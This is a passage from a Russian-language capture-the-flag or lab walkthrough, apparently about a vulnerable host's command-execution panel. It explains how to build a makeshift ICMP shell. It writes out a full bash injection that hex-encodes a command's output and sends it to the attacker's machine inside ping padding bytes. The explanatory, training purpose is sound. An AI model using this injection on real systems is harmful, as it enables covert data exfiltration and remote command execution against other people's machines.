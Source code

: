 ```text
ftp
telnet
```

В этом же сегменте исходника, кстати, становится очевидно, откуда растут ноги у бага с отображением вывода stacked-команд: при сцеплении оных с помощью `;` в /dev/null отправляется результат выполнения только *последней* команды.

## ICMP-Shell
Подобрались к самой творческой части прохождения. Представим ситуацию, в которой мы бы не обнаружили возможность просмотра результата выполнения команд прямо в браузере. Такой исход и подразумевал автор, и в этом случае нам бы пришлось мастерить **ICMP-шелл**.

Что такое ICMP-шелл? Вспомним, какая команда в Command Execution Panel была единственно легитимной... Это была команда `ping`. Если открыть мануал ping'а, можно увидеть интересный флаг, который окажется нашим спасителем в этой трудной ситуации:
> -p pattern
>
> You may specify up to 16 "pad" bytes to fill out the packet you send.  This is useful for diagnosing data-dependent problems in a network.
> For example, -p ff will cause the sent packet to be filled with all ones.

ping позволяет отправлять 16 произвольных "диагностических" байт с каждым ICMP-запросом. Следовательно, если в качестве таких байт подавать результат выполненных операций на хосте, мы получим шелл. Грубый самопальный шелл, но все же шелл! На этапе поиска уязвимых мест жертвы этого вполне хватит.

### Ядро
Ядром будущего шелла станет bash-инъекция следующего вида:
```bash
{ $CMD; echo STOPSTOPSTOPSTOP; } 2>&1 | xxd -p | tr -d '\n' | fold -w 32 | while read output; do ping -c 1 -p $output {LHOST}; done
```

Что здесь происходит слева направо:
  1. С помощью фигурных скобок сцепляется вывод двух команд: непосредственная команда, которую задает оператор ICMP-шелла (`$CMD`) и запись "маркера останова" (`echo STOPSTOPSTOPSTOP`), о предназначении которого чуть позже.
  2. `stdout` комбинируется с `stderr`, чтобы иметь возможность видеть сообщения об ошибках.
  3. Результат первых двух шагов по конвееру отправляется в `xxd -p`, который преобразует ASCII в hex.
  4. `tr -d` избавляется от символов перевода строки.
  5. `fold -w` вставляет символ перевода строки каждые 32 символа (16 байт, как раз столько, сколько может отправить `ping` в одном пакете).
  6. В цикле `while` **построчно** (помним, что на одной строке заведомо 16 байт) читается организованный результат выполнения команды, переведенный в шестнадцатиричный вид и триггерится `ping`, который отправляет по одному ICMP-пакету с каждой следующей прочтенной строкой в качестве "диагностических" байт на целевой хост (`$LHOST` — машина атакующего).

Зачем нам нужен "маркер останова"? Представим ситуацию: мы хотим получить вывод команды `whoami`. Пусть пользователя зовут `root`, тогда после выполнения команды:
```bash
whoami 2>&1 | xxd -p | tr -d '\n'  # выведет "726f6f740a"
```
